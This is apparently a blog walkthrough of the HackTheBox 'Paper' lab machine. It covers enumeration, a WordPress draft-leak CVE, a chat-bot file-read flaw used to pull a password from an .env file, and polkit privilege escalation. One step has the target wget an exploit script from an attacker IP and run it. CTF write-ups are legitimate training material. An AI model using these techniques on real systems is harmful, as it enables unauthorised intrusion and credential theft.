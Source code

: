 # Hackthebox - Paper


Hackthebox easy machine paper walkthrough & tutorial.

<!--more-->

## Enumeration

Starting out with the nmap scan
```bash
nmap -A -vv -p 22,80 -oN nmap.txt 10.10.11.143
```

We have ports 22 and 80 open.
```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcZzzauRoUMdyj6UcbrSejflBMRBeAdjYb2Fkpkn55uduA3qShJ5SP33uotPwllc3wESbYzlB9bGJVjeGA2l+G99r24cqvAsqBl0bLStal3RiXtjI/ws1E3bHW1+U35bzlInU7AVC9HUW6IbAq+VNlbXLrzBCbIO+l3281i3Q4Y2pzpHm5OlM2mZQ8EGMrWxD4dPFFK0D4jCAKUMMcoro3Z/U7Wpdy+xmDfui3iu9UqAxlu4XcdYJr7Iijfkl62jTNFiltbym1AxcIpgyS2QX1xjFlXId7UrJOJo3c7a0F+B3XaBK5iQjpUfPmh7RLlt6CZklzBZ8wsmHakWpysfXN
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE/Xwcq0Gc4YEeRtN3QLduvk/5lezmamLm9PNgrhWDyNfPwAXpHiu7H9urKOhtw9SghxtMM2vMIQAUh/RFYgrxg=
|   256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKdmmhk1vKOrAmcXMPh0XRA5zbzUHt1JBbbWwQpI4pEX
80/tcp open  http    syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
```

Visiting port 80, we have a default test page.

![Website on port 80](1.png "Website on port 80")

Looking at the response headers, we have a header X-Backend-Server with an interesting value.

![Response Headers](2.png "Response Headers")

Let's add this domain to our /etc/hosts file.

Visiting office.paper we have a new webpage.

![office.paper webpage](3.png "office.paper webpage")

A bit of information gathering revealed that the website is running Wordpress CMS.

![CMS](4.png "CMS")

So we can use wpscan to enumerate further and scan for known vulnerabilities.

```bash
wpscan --url http://office.paper --api-token 'YOUR-API-TOKEN-HERE'
```

## Foothold

From the above scan we have identified a that the running version of Wordpress is vulnerable to CVE-2019-17671

![Wordpress Vulnerability](5.png "Wordpress Vulnerability")

Looking at the exploit we have to add *?static=1* parameter.

![Wordpress Exploit](6.png "Wordpress Exploit")

Looking at other posts we can assume we may have access to some kind of secret content.

![Posts Comments](7.png "Posts Comments")

Visiting the following url: *http://office.paper/?static=1* we can see some secret content.

![secret comments](8.png "Secret Comments")

And Boom! we have a new subdomain. Let's add this to our /etc/hosts file as well.

Visiting the leaked url: *http://chat.office.paper/register/8qozr226AhkCHZdyY* we have a chat application.

![Chat Application](9.png "Chat Application")

After registering and logging in the chat application we have a #general channel. Reading through the messages I found out that we can run some interesting bot commands like the directory listing and reading files if we direct message to RecyclopsBot.

![Bot Commands](10.png "Bot Commands")

Testing out this functionality, I found a LFI vulnerability in the bot. Using the following command we can list files from parent directories as well.

![Local File Inclusion](11.png "Local File Inclusion")

Checking different files I found a password in the ../../dwight/hubot/.env file.

![Credentials](12.png "Credentials")

We already know there is a user named dwight on the system so let's try this password with user *dwight* using ssh.

```bash
ssh dwight@office.paper
```

![ssh](13.png "ssh")

**And we're in!**

### user.txt

![user.txt](14.png "user.txt")

## Privilege Escalation

I checked the sudo version using sudo --version command and the machine is running sudo version 1.8.29

![sudo_version](15.png "sudo version")

This version of sudo is vulnerable to **CVE-2021-3560** polkit vulnerability.

We can look for exploits on google and escalate our privileges.

I found [this](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py) exploit working fine.

Start a python http server on attacker machine and fetch the file using wget on the target machine.

On Attacker Machine,
```bash
python3 -m http.server 80 
```

On Target Machine, 
```bash
wget http://10.10.14.46/CVE-2021-3560.py
```

Now simply run the file using python3 and we are root.

```bash
python3 CVE-2021-3560.py
```

### root.txt

![root.txt](16.png "root.txt")

**Thanks for reading!**

